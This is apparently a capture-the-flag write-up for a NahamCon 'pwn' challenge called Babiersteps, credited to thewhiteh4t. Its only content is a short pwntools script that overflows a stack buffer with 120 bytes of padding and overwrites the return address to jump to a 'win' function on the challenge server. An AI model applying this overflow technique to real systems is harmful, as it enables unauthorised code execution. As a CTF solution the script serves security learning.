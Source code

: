 # pwn

## Babiersteps
> Solved By : thewhiteh4t

```python
#!/usr/bin/env python3

from pwn import *

host = 'challenge.nahamcon.com'
port = 32628

offset = 120
junk = b'A' * offset
win_addr = 0x4011c9

le_win_addr = p64(win_addr, endianness='little')
payload = junk + le_win_addr

conn = remote(host, port)
conn.recv(1024)
conn.sendline(payload)
conn.interactive()
conn.close()
```

![](https://i.imgur.com/oGDnIF7.png)
